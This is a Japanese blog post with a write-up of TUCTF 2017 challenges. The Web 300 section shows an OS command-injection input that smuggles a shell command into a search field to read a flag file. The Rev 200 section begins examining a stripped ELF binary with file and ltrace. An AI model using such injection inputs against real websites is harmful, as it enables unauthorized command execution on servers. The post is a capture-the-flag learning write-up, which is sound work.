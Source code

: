 ```yaml
---
layout: post
title: TUCTF 2017 の write-up
categories: [ctf]
date: 2017-11-30 14:18:00 +0900
---
```


チーム Harekaze で [TUCTF 2017](https://tuctf.asciioverflow.com/) に参加しました。最終的にチームで 2176 点を獲得し、順位は得点 948 チーム中 44 位でした。うち、私は 3 問を解いて 750 点を入れました。

以下、解いた問題の write-up です。

## [Web 300] iFrame and Shame

与えられた URL にアクセスすると、検索フォームと YouTube の動画が表示されました。

いろいろ試してみると、どうやらこの検索フォームは YouTube で入力した文字列を検索し、最初に出てきた動画を表示しているということが分かりました。

`"; echo "hoge` を入力してみると、以下のような iframe が表示されました。

```
<iframe width="560" height="315" src="hoge?autoplay=1" frameborder="0" allowfullscreen=""></iframe>
```

OS コマンドインジェクションができそうです。以下の文字列を入力するとフラグが得られました。

```
"; echo "`head -n 1 flag`
```

```
TUCTF{D0nt_Th1nk_H4x0r$_C4nt_3sc4p3_Y0ur_Pr0t3ct10ns}
```

## [Rev 200] Unknown

`unknown` というファイルが与えられました。`file` でどのようなファイルか調べてみましょう。

```
$ file ./unknown
./unknown: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=53ec94bd1406ec6b9a28f5308a92e4d906444edb, stripped
```

x86_64 の ELF のようです。実行してみましょう。

```
$ ./unknown 
Try again.
$ ./unknown hoge
Still nope.
$ ltrace ./unknown hoge
__libc_start_main(0x401c02, 2, 0x7ffe10be2c58, 0x401ce0 <unfinished ...>
strlen("hoge")                                                                               = 4
puts("Still nope."Still nope.
)                                                                          = 12
+++ exited (status 254) +++
```
